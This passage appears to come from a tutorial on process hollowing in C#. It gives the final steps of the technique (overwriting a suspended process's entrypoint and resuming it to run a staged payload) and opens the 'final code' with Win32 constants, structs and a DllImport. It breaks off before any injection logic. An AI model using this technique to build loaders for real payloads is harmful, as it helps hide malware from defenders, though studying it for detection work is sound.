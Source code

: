 Step 4: Overwrite the memory at the identified address to 'hijack' the entrypoint of the executable

Step 5: Resume the thread to trigger the staged payload

### The final code

```cs
using System;
using System.Runtime.InteropServices;

namespace ProcessHollowing
{
    public class Program
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int PROCESSBASICINFORMATION = 0;

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct ProcessInfo
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 ProcessId;
            public Int32 ThreadId;
        }

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct StartupInfo
        {
            public uint cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public uint dwX;
            public uint dwY;
            public uint dwXSize;
            public uint dwYSize;
            public uint dwXCountChars;
            public uint dwYCountChars;
            public uint dwFillAttribute;
            public uint dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct ProcessBasicInfo
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
```